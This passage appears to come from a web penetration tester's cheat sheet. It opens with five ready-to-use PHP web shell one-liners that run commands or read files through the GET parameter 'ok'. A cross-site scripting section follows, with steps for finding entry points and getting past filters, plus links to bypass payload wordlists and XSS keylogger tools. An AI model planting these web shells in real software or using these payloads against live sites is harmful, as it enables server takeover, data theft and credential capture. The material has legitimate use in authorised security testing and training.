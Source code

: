 -> shell_exec  
```
<?php echo shell_exec($_GET['ok']);?>
```

-> system  
```
<?php system($_GET['ok']);?>  
```

-> exec  
```
<?php echo exec($_GET['ok']);?>  
```

-> scandir  
```
<?php foreach(scandir($_GET['ok']) as $dir){echo "<br>";echo $dir;};?>
```

-> file_get_contents  
```
<?php file_get_contents($_GET['ok']);?>
```

## Cross-Site Scripting
1-> Identify the language and frameworks used  
2-> Identify entry points (parameters, inputs, responses reflecting values you can control, etc)   
3-> Check how this is reflected in the response via source code preview or browser developer tools  
4-> Check the allowed special characters  
```
< > ' " { } ;
```
5-> Detect if there are filters or blockages and modify as needed to make it work

### XSS Protection
-> XSS Auditor and XSS Filter  
https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md  
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html  
https://www.chromium.org/developers/design-documents/xss-auditor/  
https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge  
https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

-> Wordlists for XSS Bypass  
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/xss_bypass.txt  
https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst  
https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/refs/heads/master/XSS%20Injection/Intruders/BRUTELOGIC-XSS-STRINGS.txt
https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt  

### XSS Keylogger
https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/  
https://github.com/hadynz/xss-keylogger
